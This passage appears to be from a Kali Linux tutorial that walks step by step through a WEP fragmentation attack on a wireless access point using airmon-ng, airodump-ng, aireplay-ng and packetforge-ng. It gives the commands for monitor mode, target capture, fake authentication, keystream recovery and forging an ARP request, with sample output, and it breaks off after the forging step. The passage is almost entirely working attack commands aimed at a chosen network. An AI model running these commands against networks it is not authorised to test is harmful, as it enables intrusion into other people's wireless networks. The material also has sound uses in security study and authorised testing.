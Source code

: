 ```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airmon-ng start wlan0
```

Next, scan for WEP-enabled Access Points in range:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airodump-ng wlan0
```

Identify your target by its BSSID and operating channel. Once identified, begin capturing packets specifically from this AP:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo airodump-ng --bssid <BSSID> -c <channel> -w wep_frag wlan0
```

Since you have no legitimate client to associate with, perform a fake authentication to trick the AP into accepting your injections:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng -1 0 -a <BSSID> -h <fake-MAC> wlan0
```

This creates a fake association that allows packet injection.
Now, launch the fragmentation attack to recover a partial keystream by exploiting small packet fragments sent by the AP:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng -5 -b <BSSID> -h <fake-MAC> wlan0
```

Once a keystream is extracted, forge an encrypted ARP request packet using the recovered keystream. This forged packet will be used to inject traffic and stimulate the network:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo packetforge-ng -0 -a <BSSID> -h <fake-MAC> -k <source-IP> -l <destination-IP> -y <keystream-file> -w arp-request

Using packet type: ARP Request
Reading IVs from keystream file: keystream.txt

Forge a packet with the following parameters:

  Source MAC address : 66:77:88:99:AA:BB
  Destination MAC    : Broadcast (FF:FF:FF:FF:FF:FF)
  BSSID             : 00:11:22:33:44:55
  Packet type       : ARP Request

Writing forged packet to arp-request

Forge completed successfully.
```
